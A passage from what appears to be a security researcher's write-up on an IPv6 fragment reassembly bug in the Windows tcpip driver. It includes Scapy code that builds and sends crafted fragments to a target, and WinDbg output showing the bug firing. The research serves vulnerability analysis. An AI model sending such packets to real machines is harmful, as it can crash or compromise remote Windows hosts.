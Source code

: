 What we see above is the reassembled first fragment.

```python
reassembled_pkt = IPv6ExtHdrDestOpt(options = [
        PadN(optdata=('a'*0xff)),
        PadN(optdata=('b'*0xff)),
        PadN(optdata=('c'*0xff)),
        PadN(optdata=('d'*0xff)),
        PadN(optdata=('e'*0xff)),
        PadN(optdata=('f'*0xff)),
        PadN(optdata=('0'*0xff)),
    ]) \
    # ...
    / IPv6ExtHdrDestOpt(options = [
        PadN(optdata=('a'*0xff)),
        PadN(optdata=('b'*0xa0)),
    ]) \
    / IPv6ExtHdrFragment(
        id = second_pkt_id, m = 1,
        nh = 17, offset = 0
    ) \
    / UDP(dport = 31337, sport = 31337, chksum=0x7e7f)
```

It is a fragment that is 10020 bytes long, and you can see that the `ndiskd` extension walks the long MDL chain that describes the content of this fragment. The last MDL is the header of the UDP part of the fragment. What is left to do is to trigger another reassembly. What if we send another fragment that is part of the same group; would this trigger another reassembly?

Well, let's see if the below works I guess:

```python
reassembled_pkt_2 = Ether() \
    / IPv6(dst = args.target) \
    / IPv6ExtHdrFragment(id = second_pkt_id, m = 0, offset = 1, nh = 17) \
    / 'doar-e ftw'

sendp(reassembled_pkt_2, iface = args.iface)
```

Here is what we see in WinDbg:

```text
kd> bp tcpip!Ipv6pReassembleDatagram

; This is the first reassembly; the output packet is the first large fragment

kd> g
Breakpoint 0 hit
tcpip!Ipv6pReassembleDatagram:
fffff805`4a5cdd6c 4488442418      mov     byte ptr [rsp+18h],r8b

; This is the second reassembly; it combines the first very large fragment, and the second fragment we just sent

kd> g
Breakpoint 0 hit
tcpip!Ipv6pReassembleDatagram:
fffff805`4a5cdd6c 4488442418      mov     byte ptr [rsp+18h],r8b

...

; Let's see the bug happen live!

kd> 
tcpip!Ipv6pReassembleDatagram+0xce:
fffff805`4a5cde3a 0fb79424a8000000 movzx   edx,word ptr [rsp+0A8h]
```